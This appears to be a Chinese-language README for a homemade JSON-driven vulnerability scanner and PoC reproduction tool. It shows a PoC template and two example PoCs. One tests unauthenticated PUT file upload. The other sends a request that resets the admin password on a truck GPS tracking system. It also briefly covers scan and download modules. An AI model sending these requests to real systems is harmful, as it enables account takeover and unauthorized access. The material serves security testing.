 ## ANG's Not Goby!



## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了，可执行文件报错就使用ang.py或者test.py

<img src="img\0.png">

使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```



```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing

<img src="img/1.png">

### scan 模块，-U是批量扫描，指定一个TXT文件

<img src="img\2.png">

-u 是指定一个目标进行扫描

<img src="img\3.png">

### download 模块

用于下载文件（目前支持http/https代理）

<img src="img/4.png">

用于下载文件，可以配合其他脚本爬取资源

<img src="img/5.png">

